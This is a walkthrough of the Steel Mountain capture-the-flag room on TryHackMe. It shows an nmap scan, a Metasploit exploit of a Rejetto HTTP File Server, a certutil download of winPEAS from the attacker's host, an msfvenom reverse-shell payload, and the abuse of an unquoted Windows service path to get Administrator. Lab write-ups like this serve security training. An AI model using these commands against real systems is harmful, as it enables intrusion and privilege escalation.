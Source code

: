 ```yaml
---
title: "Exploit a Rejetto HTTP File Server in Steel Mountain CTF from TryHackMe"
slug: steel-mountain
layout: post
excerpt_separator:  <!--more-->
categories:
  - ctfs
---
```


This walkthrough covers the [Steel Mountain](https://tryhackme.com/room/steelmountain) CTF found on [TryHackMe](https://tryhackme.com). This room is designed to evaluate our Windows OS enumeration skills. We will utilize Metasploit to gain an initial foothold, followed by PowerShell to enumerate the machine and escalate our privileges to Administrator.

### Step 1: Nmap

Note: ICMP is disabled, so we'll have to use the `-Pn` flag.

```bash
nmap -Pn -p- 10.10.0.5 -vvv
```

```plaintext
PORT      STATE SERVICE       REASON
80/tcp    open  http          syn-ack ttl 125
135/tcp   open  msrpc         syn-ack ttl 125
139/tcp   open  netbios-ssn   syn-ack ttl 125
445/tcp   open  microsoft-ds  syn-ack ttl 125
3389/tcp  open  ms-wbt-server syn-ack ttl 125
5985/tcp  open  wsman         syn-ack ttl 125
8080/tcp  open  http-proxy    syn-ack ttl 125
47001/tcp open  winrm         syn-ack ttl 125
49152/tcp open  unknown       syn-ack ttl 125
49153/tcp open  unknown       syn-ack ttl 125
49154/tcp open  unknown       syn-ack ttl 125
49155/tcp open  unknown       syn-ack ttl 125
49156/tcp open  unknown       syn-ack ttl 125
49169/tcp open  unknown       syn-ack ttl 125
49170/tcp open  unknown       syn-ack ttl 125
```

From this scan, we can tell that there are two web servers, one of which will be our attack vector to get an initial foothold. Visiting the site on port 80 reveals nothing more than a static page for an employee of the month. Looking at the source code helps us identify a name, *Bill Harper*.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691113410117/78e26866-6de1-4595-be30-97a365a1f41d.png){: .center-image }

Moving on over to port 8080 proves to be a little more useful. Right off the bat, we can tell this is a user panel to an HTTP File Server.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691113421551/bc9e5d0c-c6e1-4afa-b566-06f0457b7432.png){: .center-image }

Looking at the source code helps us narrow it down to a `Rejetto HTTP File Server`. This is great news because this version is vulnerable to an RCE and Metasploit has a module for it called `rejetto_hfs_exec`.

### Step 2: Metasploit

From here we want to search for the `rejetto` module and configure the options.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691113447324/e218eed9-4f8a-4eba-9d05-7524c6b5065a.png){: .center-image }

After properly configuring the module and typing `exploit`, we get a meterpreter session and pop a shell to grab our first flag located in `C:\Users\bill\Deskto`p. Use `type user.txt` to view it from the command line.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691113460353/562ce6d7-e56d-4eac-a48b-91d53837ca0b.jpeg){: .center-image }

### Step 3: Privilege Escalation

To enumerate this machine, we will use `winPEAS`. You can download the latest version [here](https://github.com/carlospolop/PEASS-ng/releases/latest/download/winPEASany_ofs.exe).

Start a Python server:

```bash
python3 -m http.server 8000
```

Upload `winPEAS` to the victims `C:\Users\bill\Desktop` directory using `certutil.exe`.

```bash
certutil.exe -urlcache -f http://10.13.28.215:8000/winPEASany_ofs.exe winPEASany_ofs.exe
```

Run it by typing `winPEASany_ofs.exe` .

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691113544053/f7884b90-58a2-4667-8890-5edb05a79ea5.png){: .center-image }

An interesting service called `AdvancedSystemCareService9` is missing quotes and has a space in between the application name, which means we can escape it and run a program called "`Advanced.exe`" with a reverse shell.

Let's fire up `msfvenom` and generate a payload.

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.13.28.215 LPORT=1337 -f exe -o Advanced.exe
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691113567782/e5c99dee-d106-4144-97c9-93556990079a.png){: .center-image }

Startup a Python server and transfer the payload over using `certutil`.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691113578290/4def3399-0d65-4e33-b741-97c14bfa9e6a.png){: .center-image }

Move it to "`C:\Program Files (x86)\IObit\"`, and be sure to put the file path in quotes due to the space.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691113586235/85a1fdb6-3607-409b-a1ec-f298d39db15e.png){: .center-image }

Now we want to stop the `AdvancedSystemCareService9` service.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691113596097/f50abfb1-56d2-4a7e-9f8d-4c63d9d49cfa.png){: .center-image }

Start a netcat listener to catch the reverse shell.

```bash
nc -lvnp 1337
```

Start the `AdvancedSystemCareService9` service back up.

### Step 4: Root

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691113623575/0623872a-2d25-4ac6-9184-30c48c6e7d1a.png){: .center-image }

Pwned! From here we can grab the last flag found in `C:\Users\Administrator\Desktop`.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691113632364/117dcb66-121f-481e-88b2-32df16cf5710.jpeg){: .center-image }

I hope you enjoyed this walkthrough of the [Steel Mountain](https://tryhackme.com/room/steelmountain) CTF found on [TryHackMe](https://tryhackme.com). Happy Hacking.